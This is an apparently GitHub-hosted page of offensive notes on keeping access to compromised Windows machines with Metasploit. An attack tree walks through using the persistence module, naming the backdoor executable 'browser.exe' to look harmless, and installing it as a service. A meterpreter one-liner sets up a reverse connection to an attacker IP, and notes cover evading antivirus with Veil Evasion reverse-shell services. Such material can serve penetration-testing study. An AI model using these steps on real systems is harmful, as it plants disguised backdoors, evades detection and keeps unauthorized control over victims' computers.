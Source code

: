 # Maintaining access on Windows

## Attack tree

```text
1 Maintain access on Windows
    1.1 In meterpreter background the current basic shell (AND)
    1.2 > use exploit/windows/local/persistence (AND)
    1.3 Set EXE_NAME to something less suspicious (like browser.exe) (AND)
    1.4 Set SESSION to the id of the basic shell just put in the background (AND)
    1.5 > show advanced
    1.6 Inject backdoor as a service with > set EXE::Custom [backdoor location] (/var/www/html/evil-files/backdoor.exe) (AND)
    1.7 > exploit
    1.8 Store the Meterpreter RC_file path for cleanup later
```

## Notes

### Problems

* Using Veil Evasion's `rev_http_service` and `rev_tcp_service` can be used instead of a backdoor, or uploaded from meterpreter. This does not always work.
* Using Meterpreter's persistence module (`> run persistence -U -i 20 -p 80 -r [IP address]`) is detectable by AV.
* A combination of the two solves these problems.

## Resources

* [Offensive security: Meterpreter Basic Commands](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
* [Metasploit documentation](https://docs.metasploit.com/)